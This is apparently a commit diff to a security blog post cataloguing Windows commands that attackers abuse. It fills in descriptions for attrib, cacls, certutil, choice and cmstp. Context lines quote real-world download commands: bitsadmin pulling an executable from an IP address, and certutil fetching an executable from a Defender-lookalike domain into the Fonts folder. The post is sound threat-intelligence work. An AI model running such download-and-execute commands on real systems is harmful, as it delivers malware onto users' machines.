

Before and after one commit to spiritedwolf/fareedfauzi.github.io, a Jekyll site: the page built from _posts/2019-12-18-Commands-Used-Attackers.md, in a window 1280 px wide and 1400 px high, scrolled down 1802 px. Shown: the whole window at 92% size, without its empty margins (0-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Update 2019-12-18-Commands-Used-Attackers.md

```diff
--- a/_posts/2019-12-18-Commands-Used-Attackers.md
+++ b/_posts/2019-12-18-Commands-Used-Attackers.md
@@ -13,7 +13,7 @@ This example is all credit to Mastar fumik0 cause highlighted it at his [blog](h
 
 
 ### attrib
-Function: Used to display or change the file attributes for a file or folder. You can also find and set most file and folder attributes in Explorer.
+Function: Used to display or change the file attributes for a file or folder. You can also find and set most file and folder attributes in Explorer. Malware used to hide their file using this command.
 
 Reference: [Microsoft attrib manual](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/attrib)
 
@@ -55,7 +55,7 @@ Command  line examples:
     bitsadmin /transfer Nv /priority foreground http://154.16.201.215:2330/ari.exe %USERPROFILE%\RK.exe
 
 ### calcs
-Function: *//will be add later*
+Function: Displays or modifies discretionary access control lists (DACL) on specified files. An access control list is a list of permissions for securable object, such as a file or folder, that controls who can access it.
 
 Command  line examples:
 
@@ -63,7 +63,7 @@ Command  line examples:
     cacls C:\Users\%OSUSER% /T /C /P %OSUSER% :F
 
 ### certutil
-Function: *//will be add later*
+Function: Windows binary used for handeling certificates. It can also use to download file from internet.
 
 Command  line examples:
 
@@ -76,7 +76,7 @@ Command  line examples:
     certutil -urlcache -split -f http://cache.windowsdefenderhost.com/windows/RecentFileProgrom.exe "C:\\Windows\\Fonts\\RecentFileProgrom.exe"
 
 ### choice.exe
-Function: *//will be add later*
+Function: Prompts the user to select one item from a list of single-character choices in a batch program, and then returns the index of the selected choice. If used without parameters, choice displays the default choices Y and N.
 
 Command  line examples:
 
@@ -84,7 +84,9 @@ Command  line examples:
     choice /t 3 /d y /n
 
 ### cmstp.exe
-Function: *//will be add later*
+Function: CMSTP is a binary which is associated with the Microsoft Connection Manager Profile Installer. It accepts INF files which can be weaponised with malicious commands in order to execute arbitrary code in the form of scriptlets (SCT) and DLL.
+
+Reference: [https://attack.mitre.org/techniques/T1191/](https://attack.mitre.org/techniques/T1191/)
 
 Command  line examples:
 
```
